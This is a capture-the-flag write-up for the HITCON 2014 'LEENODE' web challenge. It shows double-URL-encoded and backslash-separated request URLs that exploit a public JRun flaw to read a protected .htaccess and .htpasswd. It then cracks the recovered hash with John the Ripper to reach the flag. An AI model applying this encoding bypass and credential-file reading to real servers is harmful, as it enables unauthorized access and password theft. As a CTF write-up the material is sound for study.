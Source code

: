 # HITCON CTF 2014: LEENODE

**Category:** Web
**Points:** 250
**Description:**

> http://203.66.57.98/

## Write-up

[Source](https://wiki.mma.club.uec.ac.jp/CTF/Writeup/HITCON2014/LEENODE) (Modified only slightly for grammar and Markdown formatting)

1. Perhaps what we need to do is access the `/admin/` directory.
2. The server is Apache/2.0.65 (Unix) JRun/4.0 Server.
3. `*.jsp` was redirected to JRun Server.
*  [http://203.66.57.98/a.jsp](http://203.66.57.98/a.jsp)
4. A vulnerability for JRun exists publicly
* [http://www.kb.cert.org/vuls/id/977440](http://www.kb.cert.org/vuls/id/977440)
5. [http://203.66.57.98/a;.jsp](http://203.66.57.98/a;.jsp) gives a 500 Internal Server Error. Interestingly enough Apache serves up this error, not JRun as expected.
6. Escaping the URL for Apache as such [http://203.66.57.98/a%253b.jsp](http://203.66.57.98/a%253b.jsp) gives a 404 Error by JRun instead of the expected Apache.
7. Apache blocks many attempts to read `/.htaccess` and `/admin/.htaccess` so other tricks are needed.
8. It is discovered that JRun recognizes backslash as a directory separator as [http://203.66.57.98/.%5Ca%253b.jsp](http://203.66.57.98/.%5Ca%253b.jsp) was handled as /a by JRun.
9. Eventually `/admin/.htaccess` and `/admin/.htpasswd` are read using the following URLs respectively
[http://203.66.57.98/.%5Cadmin%5C.htaccess%253b.jsp](http://203.66.57.98/.%5Cadmin%5C.htaccess%253b.jsp)
[http://203.66.57.98/.%5Cadmin%5C.htpasswd%253b.jsp](http://203.66.57.98/.%5Cadmin%5C.htpasswd%253b.jsp)

`.htaccess` reads as follows:

```
AuthName "Restricted Area"
AuthType Basic
AuthUserFile /usr/local/apache2/htdocs/admin/.htpasswd
AuthGroupFile /dev/null
require valid-user
```

`.htpasswd` reads as follows:


```
hitc0n_1een0de:nlGc3XNhkrL1o
```

10. Let’s use John the Ripper to crack the password:

```
% john .htpasswd
ktw2z            (hitc0n_1een0de)
guesses: 1  time: 0:00:01:13 DONE (Sat Aug 16 20:58:25 2014)  c/s: 5319K  trying: ktkcK - kk4iT
```

The password is `ktw2z`.

11. Visit [http://203.66.57.98/admin/thefl4g.txt](http://203.66.57.98/admin/thefl4g.txt) and get the flag

```
The flag is HITCON{u_d0nt_f0rg3t_d0uble_3nc0ding!}
```

## Other write-ups and resources

* none yet
